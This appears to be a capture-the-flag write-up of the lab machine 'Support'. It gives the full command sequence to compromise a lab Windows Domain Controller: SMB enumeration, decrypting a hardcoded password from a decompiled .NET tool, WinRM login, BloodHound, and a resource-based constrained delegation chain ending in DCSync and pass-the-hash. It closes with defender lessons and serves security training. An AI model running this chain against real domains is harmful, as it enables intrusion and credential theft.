

# Support

A Windows Domain Controller that hands out its own LDAP service account password almost for free — you just have to be willing to decompile a random `.exe` sitting on an anonymous SMB share first. From there, Active Directory did what Active Directory does best: a chain of "reasonable-looking" permissions turned into a straight line to Domain Admin, no exploit-db required.

---

## 1. Reconnaissance

A full Nmap scan against `10.129.1.210` confirms the target as a Windows Domain Controller for `support.htb`. Key ports: DNS (53), Kerberos (88), SMB (445), LDAP (389), and WinRM (5985). SMB signing is enabled and required, ruling out relay attacks, but WinRM being open means a valid credential is all we need for a shell.

```bash
$ sudo nmap -p- -sC -sV --min-rate 5000 10.129.1.210 -o scan.txt -Pn
```



*Nmap scan results revealing the target as a Domain Controller for the `support.htb` domain.*

---

## 2. Initial Access — SMB Enumeration & Credential Extraction

Anonymous SMB enumeration with `smbclient` turns up the usual administrative shares (`C$`, `ADMIN$`, `SYSVOL`) plus a non-default one: `support-tools`. Anonymously accessible custom shares are always worth a look.

```bash
$ smbclient -N -L //10.129.1.210
```


*Anonymous SMB enumeration revealing a custom share named `support-tools`.*

Connecting to the share reveals standard portable IT admin tools (7-Zip, PuTTY, Sysinternals) alongside one outlier: `UserInfo.exe.zip`. It has a generic name and a noticeably newer modification date than everything around it — a strong hint that it's custom-built, and custom-built tools have a habit of shipping with hardcoded secrets.

```bash
$ smbclient -N //support.htb/support-tools
```


*Listing the contents of the `support-tools` share, identifying the anomalous `UserInfo.exe.zip` file.*

Downloading and extracting the archive reveals a pile of Microsoft BCL and dependency-injection DLLs — the telltale signature of a .NET application. That means it decompiles cleanly back into readable C#.

```bash
smb > get UserInfo.exe.zip
$ unzip UserInfo.exe.zip
```


*Extracting the archive, revealing a .NET application structure.*

Decompiling with `ilspycmd` surfaces the `UserInfo.Services.Protected` class, containing a hardcoded Base64-encoded password (`enc_password`) and a key (`armando`). The `getPassword()` method's logic: Base64-decode, XOR with the key, then XOR again with `0xDF`. The `LdapQuery` class confirms this decrypted password binds to `LDAP://support.htb` as `support\ldap`.

```bash
$ ilspycmd UserInfo.exe
```


*Decompiling `UserInfo.exe` using `ilspycmd` (dnSpy works just as well on a Windows box).*


*The decompiled `Protected` class revealing the hardcoded Base64 `enc_password` string.*

Replicating the decryption logic locally recovers the plaintext password:

```bash
python3 -c "
import base64

enc = '0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E'
key = b'armando'

data = base64.b64decode(enc)
out = bytearray()
for i, b in enumerate(data):
    out.append((b ^ key[i % len(key)]) ^ 0xDF)

print(out.decode('latin-1'))
"
```


Password recovered. `netexec` confirms it's valid against LDAP:

```bash
$ netexec ldap support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```


*Validating the decrypted LDAP credentials using `netexec`.*

**Credentials:** `support\ldap : nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

---

## 3. LDAP Enumeration & Plaintext Password Disclosure

With valid LDAP creds in hand, a full directory dump from the domain root gives a broad (and noisy) view of the AD structure — containers, GPOs, system settings. Useful as a baseline, but it needs narrowing down to find anything user-specific.

```bash
$ ldapsearch -x -H ldap://support.htb -D "support\ldap" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"
```


*Executing a broad `ldapsearch` query against the domain root using the recovered credentials.*

Filtering down to the `support` user's attributes turns up a plaintext password sitting in the `info` field: `Ironside47pleasure40Watchful`. A classic case of someone using a free-text AD attribute as a sticky note. The account is also a member of `Remote Management Users`, meaning it can establish a WinRM session directly.


*Filtered LDAP query exposing a plaintext password in the `support` user's `info` attribute.*

---

## 4. WinRM Access — User Flag

`netexec` confirms the credentials work against WinRM, and the `(Pwn3d!)` flag confirms command execution rights:

```bash
$ netexec winrm support.htb -u support -p 'Ironside47pleasure40Watchful'
```


*Validating WinRM access using `netexec`, confirming command execution privileges with `(Pwn3d!)`.*

Dropping into an interactive session with `evil-winrm`:

```bash
$ evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'
```


*Establishing an interactive WinRM session and verifying user identity (`support\support`).*


*Retrieving the user flag from the Desktop directory.*

---

## 5. Active Directory Enumeration — BloodHound

Before running BloodHound, the attack host's clock needs to be NTP-synced with the DC, or Kerberos-dependent steps later on will fail in confusing ways. With that sorted, `bloodhound-python` collects the environment: 1 domain, 1 computer, 21 users, 53 groups.

```bash
bloodhound-python -u support -p 'Ironside47pleasure40Watchful' -d support.htb -ns 10.129.1.210 -c all
```


*Executing the BloodHound Python collector to enumerate AD objects and relationships.*

Loading the results into the BloodHound GUI maps a short, unpleasant path to Domain Admin:

1. `support` is a member of the `Shared Support Accounts` group.
2. `Shared Support Accounts` holds `GenericAll` on the `dc.support.htb` computer object.

`GenericAll` on a Domain Controller's machine account is effectively a skeleton key — it allows modifying that object's attributes, which opens the door to a Resource-Based Constrained Delegation (RBCD) attack and impersonation of privileged users.


*BloodHound path showing `GenericAll` privileges on the Domain Controller via the `Shared Support Accounts` group.*

---

## 6. Privilege Escalation — RBCD Attack Chain

First, add a decoy computer account to use as the attacker-controlled delegation source:

```bash
$ impacket-addcomputer -computer-name 'FAKE01$' -computer-pass 'Passw0rd123!' -dc-ip 10.129.1.210 support.htb/support:'Ironside47pleasure40Watchful'
```


*Adding a fake machine account `FAKE01$` to the domain using `impacket-addcomputer`.*

Then configure RBCD by writing to the DC's `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute, granting `FAKE01$` the right to impersonate other users on the DC:

```bash
$ impacket-rbcd -delegate-from 'FAKE01$' -delegate-to 'DC$' -dc-ip 10.129.1.210 -action write support.htb/support:'Ironside47pleasure40Watchful'
```


*Modifying the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to grant `FAKE01$` delegation rights.*

With delegation configured, request a Service Ticket impersonating `Administrator` via the S4U2Self/S4U2Proxy flow:

```bash
$ impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.129.1.210 'support.htb/FAKE01$:Passw0rd123!'
```


*Successfully obtaining and saving the Administrator Service Ticket via S4U2Proxy.*

Point Impacket's Kerberos auth at the new ticket:

```bash
$ export KRB5CCNAME=Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```

And with that ticket, `impacket-secretsdump` performs a DCSync against the Administrator account, pulling the NTLM hash and Kerberos keys straight from NTDS.DIT:


*Dumping the Administrator NTLM hash and Kerberos keys using `impacket-secretsdump`.*

Finally, Pass-the-Hash with `evil-winrm` lands a full Administrator session on the Domain Controller:

```bash
$ evil-winrm -i 10.129.1.210 -u administrator -H <Administrator Hash>
```


_Gaining administrative access via Pass-the-Hash using `evil-winrm`._


---

## 7. Summary & Takeaways

| Step | Vulnerability | Result |
|---|---|---|
| Initial access | Hardcoded, weakly-encoded credentials in a leaked .NET binary on an anonymous SMB share | Valid LDAP service account |
| Lateral move | Plaintext password stored in an AD user's `info` attribute | WinRM access as `support` |
| Privilege escalation | `GenericAll` on the DC computer object → RBCD → S4U2Proxy → DCSync | Administrator NTLM hash, full Domain Admin |

**Lessons for defenders:**
- Never hardcode credentials in application binaries, and definitely don't roll your own "encryption" scheme (a keyed XOR is not encryption).
- Restrict anonymous access to SMB shares, and audit custom shares that don't belong to the default set.
- Don't store passwords, even temporarily, in free-text AD attributes like `info` — they're readable by anyone with basic directory access.
- Audit `GenericAll`/`GenericWrite` rights on computer objects regularly. Delegation-based attacks like RBCD turn "harmless" object permissions into full domain compromise.

Done.